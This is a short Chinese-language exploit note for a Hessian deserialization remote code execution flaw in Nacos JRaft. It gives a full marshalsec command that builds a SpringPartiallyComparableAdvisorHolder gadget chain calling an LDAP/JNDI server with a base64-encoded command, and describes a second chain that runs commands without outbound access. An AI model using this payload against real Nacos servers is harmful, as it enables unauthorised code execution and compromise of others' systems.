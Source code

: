 # Nacos JRaft Hessian 反序列化 RCE

1. 利用方式一：通过 marshalsec 生成 SpringPartiallyComparableAdvisorHolder 利用链。需要出网。（JNDI LDAP 反序列化 + POJONode 触发 TemplatesImpl）

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.Hessian2 SpringPartiallyComparableAdvisorHolder ldap://127.0.0.1:1389/Deserialization/Jackson/nu1r/Base64/{base64编码的命令} | base64
```

2. 利用方式二：通过 build方法 生成利用链子，参数为命令即可，不用出网，但是只是执行命令，不能加载字节码。